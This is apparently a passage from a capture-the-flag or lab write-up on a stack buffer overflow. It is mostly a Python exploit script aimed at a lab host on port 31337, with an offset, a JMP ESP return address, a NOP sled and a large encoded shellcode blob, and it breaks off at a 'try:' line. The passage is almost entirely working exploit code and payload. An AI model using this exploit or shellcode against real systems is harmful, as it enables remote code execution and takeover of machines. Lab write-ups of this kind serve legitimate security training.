     "\x93\x5a\x36\x3e\x12\x18\x1d\x9a\x7e\xfa\x3c\xbb\xda\xad"
    "\x41\xdb\x84\x12\xe4\x90\x29\x46\x95\xfb\x25\xab\x94\x03"
    "\xb6\xa3\xaf\x70\x84\x6c\x04\x1e\xa4\xe5\x82\xd9\xcb\xdf"
    "\x73\x75\x32\xe0\x83\x5c\xf1\xb4\xd3\xf6\xd0\xb4\xbf\x06"
    "\xdc\x60\x6f\x56\x72\xdb\xd0\x06\x32\x8b\xb8\x4c\xbd\xf4"
    "\xd9\x6f\x17\x9d\x70\x8a\xf0\xa8\x96\x82\x4d\xc5\x94\xaa"
    "\x5c\x49\x10\x4c\x34\x61\x74\xc7\xa1\x18\xdd\x93\x50\xe4"
    "\xcb\xde\x53\x6e\xf8\x1f\x1d\x87\x75\x33\xca\x67\xc0\x69"
    "\x5d\x77\xfe\x05\x01\xea\x65\xd5\x4c\x17\x32\x82\x19\xe9"
    "\x4b\x46\xb4\x50\xe2\x74\x45\x04\xcd\x3c\x92\xf5\xd0\xbd"
    "\x57\x41\xf7\xad\xa1\x4a\xb3\x99\x7d\x1d\x6d\x77\x38\xf7"
    "\xdf\x21\x92\xa4\x89\xa5\x63\x87\x09\xb3\x6b\xc2\xff\x5b"
    "\xdd\xbb\xb9\x64\xd2\x2b\x4e\x1d\x0e\xcc\xb1\xf4\x8a\xec"
    "\x53\xdc\xe6\x84\xcd\xb5\x4a\xc9\xed\x60\x88\xf4\x6d\x80"
    "\x71\x03\x6d\xe1\x74\x4f\x29\x1a\x05\xc0\xdc\x1c\xba\xe1"
    "\xf4";

Putting payload in script:

```python
import socket

ip = "10.10.56.225"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"           # JMP ESP address 080414C3
padding = "\x90"*16
postfix = ""

payload =  (
"\xda\xcf\xd9\x74\x24\xf4\xb8\x4e\x9a\xa4\x81\x5a\x33\xc9"
"\xb1\x52\x83\xc2\x04\x31\x42\x13\x03\x0c\x89\x46\x74\x6c"
"\x45\x04\x77\x8c\x96\x69\xf1\x69\xa7\xa9\x65\xfa\x98\x19"
"\xed\xae\x14\xd1\xa3\x5a\xae\x97\x6b\x6d\x07\x1d\x4a\x40"
"\x98\x0e\xae\xc3\x1a\x4d\xe3\x23\x22\x9e\xf6\x22\x63\xc3"
"\xfb\x76\x3c\x8f\xae\x66\x49\xc5\x72\x0d\x01\xcb\xf2\xf2"
"\xd2\xea\xd3\xa5\x69\xb5\xf3\x44\xbd\xcd\xbd\x5e\xa2\xe8"
"\x74\xd5\x10\x86\x86\x3f\x69\x67\x24\x7e\x45\x9a\x34\x47"
"\x62\x45\x43\xb1\x90\xf8\x54\x06\xea\x26\xd0\x9c\x4c\xac"
"\x42\x78\x6c\x61\x14\x0b\x62\xce\x52\x53\x67\xd1\xb7\xe8"
"\x93\x5a\x36\x3e\x12\x18\x1d\x9a\x7e\xfa\x3c\xbb\xda\xad"
"\x41\xdb\x84\x12\xe4\x90\x29\x46\x95\xfb\x25\xab\x94\x03"
"\xb6\xa3\xaf\x70\x84\x6c\x04\x1e\xa4\xe5\x82\xd9\xcb\xdf"
"\x73\x75\x32\xe0\x83\x5c\xf1\xb4\xd3\xf6\xd0\xb4\xbf\x06"
"\xdc\x60\x6f\x56\x72\xdb\xd0\x06\x32\x8b\xb8\x4c\xbd\xf4"
"\xd9\x6f\x17\x9d\x70\x8a\xf0\xa8\x96\x82\x4d\xc5\x94\xaa"
"\x5c\x49\x10\x4c\x34\x61\x74\xc7\xa1\x18\xdd\x93\x50\xe4"
"\xcb\xde\x53\x6e\xf8\x1f\x1d\x87\x75\x33\xca\x67\xc0\x69"
"\x5d\x77\xfe\x05\x01\xea\x65\xd5\x4c\x17\x32\x82\x19\xe9"
"\x4b\x46\xb4\x50\xe2\x74\x45\x04\xcd\x3c\x92\xf5\xd0\xbd"
"\x57\x41\xf7\xad\xa1\x4a\xb3\x99\x7d\x1d\x6d\x77\x38\xf7"
"\xdf\x21\x92\xa4\x89\xa5\x63\x87\x09\xb3\x6b\xc2\xff\x5b"
"\xdd\xbb\xb9\x64\xd2\x2b\x4e\x1d\x0e\xcc\xb1\xf4\x8a\xec"
"\x53\xdc\xe6\x84\xcd\xb5\x4a\xc9\xed\x60\x88\xf4\x6d\x80"
"\x71\x03\x6d\xe1\x74\x4f\x29\x1a\x05\xc0\xdc\x1c\xba\xe1"
"\xf4"
)

buffer = overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
```